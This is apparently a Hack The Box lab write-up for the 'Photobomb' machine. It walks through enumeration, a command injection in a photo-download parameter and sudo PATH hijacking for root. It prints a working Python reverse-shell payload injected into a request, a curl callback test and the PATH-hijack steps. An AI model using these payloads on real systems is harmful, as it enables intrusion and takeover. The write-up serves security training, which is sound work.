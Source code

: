 # Hack-The-Box-writeups
Photobomb
1. Enumeration 
Let's start with a Nmap scan to discover services and open ports running on this machine.
nmap -sV -Sc 10.10.11.182
 ![image](https://user-images.githubusercontent.com/107045536/216795769-eacf443c-edec-451c-8de5-7842fe1cbb16.png)
There are only two open ports, port 22 and port 80 
- Web content and Subdomain enumeration don’t show anything  

2. Port 80 enumeration
photobomb.htb
 ![image](https://user-images.githubusercontent.com/107045536/216795779-e44da4f3-ff11-4552-a2a6-064c47d74f7a.png)
 
This link redirects to /printer which is asking for a username and password that we don’t know.
 ![image](https://user-images.githubusercontent.com/107045536/216795784-25623989-36b0-4b9b-8439-b98cc199a1b7.png)
 
Photobomb.htb source code 

 ![image](https://user-images.githubusercontent.com/107045536/216795788-83e10377-456b-4725-a7b4-91f901d9e78f.png)

Let's take a look at this JS file: 
![image](https://user-images.githubusercontent.com/107045536/216795793-e784324b-a978-4ced-a385-62579ce53b86.png)

Now let's log in with those credentials 
 ![image](https://user-images.githubusercontent.com/107045536/216795797-7d1aee88-10c2-4092-8db9-ace3991fdeac.png)

The website offers "DOWNLOAD PHOTO TO PRINT"
Let's intercept the request using Burpsuite  
 ![image](https://user-images.githubusercontent.com/107045536/216795804-dd8db109-55a5-4f52-a491-d23078e0fce1.png)

It seems vulnerable to command injection
Let's test for command injection, start "python web server" 
1. python3 -m http.server
2. inject ;curl+10.10.x.x:8000 to each parameter 
 ![image](https://user-images.githubusercontent.com/107045536/216795809-501793d1-c82c-40a0-8bab-86d329a11bf9.png)
We found that only the filetype parameter is vulnerable 
Lets create some reverse shell: https://www.revshells.com/ 
export+RHOST="10.10.14.34";export+RPORT=5555;python3+-c+'import+sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)];pty.spawn("sh")'

Start the Netcat listener 
![image](https://user-images.githubusercontent.com/107045536/216795815-f88dbd93-f881-49b4-b084-f2bfacede87a.png)
![image](https://user-images.githubusercontent.com/107045536/216795821-274fe779-ae03-4388-a34e-74cd087113c3.png)

3. Privilege Escalation

Lets upgrade our shell 
export TERM=xterm
python3 -c 'import pty;pty.spawn("/bin/bash")'

Before running linpeas lets try the classic ways 
 ![image](https://user-images.githubusercontent.com/107045536/216795825-bc62f6e6-98a7-4f70-acec-4ca50402d139.png)

User wizard can run "cleanup.sh" with "sudo" privilege 



Lets check this script
 ![image](https://user-images.githubusercontent.com/107045536/216795830-dee8d555-5cd8-4bf4-9142-82fc036a8cf2.png)

So there are two interesting, “cd” and "find" called without their absolute path. so, we can exploit this misconfiguration by changing the "PATH variable"   
Lets create "cd" file that contains '/bin/bash'  and give 777 permission
 ![image](https://user-images.githubusercontent.com/107045536/216795832-47d85810-fd6b-44af-a32c-02d770ad60c7.png)

Add /tmp to the beginning of the PATH variable 
 ![image](https://user-images.githubusercontent.com/107045536/216795835-38437609-6b9d-415c-b709-ff9a7d0c9569.png)
![image](https://user-images.githubusercontent.com/107045536/216795840-455f1338-9933-4c2c-9a39-3554b565b9a9.png)




